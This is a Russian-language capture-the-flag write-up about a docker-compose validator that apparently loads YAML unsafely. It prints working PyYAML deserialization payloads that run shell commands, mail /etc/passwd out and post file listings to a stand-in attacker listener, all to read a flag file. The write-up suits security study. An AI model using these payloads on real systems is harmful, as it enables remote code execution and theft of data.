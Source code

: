 # #лидируйвалидируй: Write-up

Сервис принимает на вход файлы docker-compose и возвращает ответ: либо ошибок нет, либо есть хотя бы одна ошибка. Никаких уточнений о природе ошибки не делается.

Файлы docker-compose составляются на языке YAML, а сам по себе docker-compose написан на питоне, логично ожидать от валидатора того же. Ищем, какие с этим могут быть проблемы, выясняем, [например, тут](https://hackernoon.com/10-common-security-gotchas-in-python-and-how-to-avoid-them-e19fbe265e03), что YAML можно загружать небезопасным способом (через `yaml.load` вместо `yaml.safe_load`). Небезопасность способа в том, что YAML-файл можно придумать такой, что будет выполнен произвольный код. Например:

```
!!python/object/apply:os.system ["cat /etc/passwd | mail me@hack.c"]
```

На сервере отсутствует `mail`, да там вообще почти ничего нет. Поднимаем какой-нибудь сервер, который будет записывать приходящие POST-запросы, здесь он назван `post-listener.php`. Немного помучившись, можем сконструировать такой способ доставать информацию:

```
!!python/object/apply:os.system
    - python3 -c "import requests; requests.post('http://somewhere/post-listener.php', data='123')"
```

Попробуем понять, что есть на сервере:

```
!!python/object/apply:os.system
    - python3 -c "import requests, subprocess;
      requests.post('http://somewhere/post-listener.php',
      data=subprocess.run('find /',
                          shell=True, check=False,
                          stdout=subprocess.PIPE,
                          stderr=subprocess.STDOUT).stdout)"
```

Находим в конце списка папку `/app` с нашим приложением, а там — файл `旗.txt` (кстати, `旗` по-китайски и по-японски — флаг, вот совпадение, правда?). Отправляем себе результат выполнения `cat /app/旗.txt`, читаем флаг (как и полагается в иероглифическом письме, записанный по вертикали — по одной букве на строчку).

Флаг: **ugra_ule_ele_valilele_trali_vali_validate**
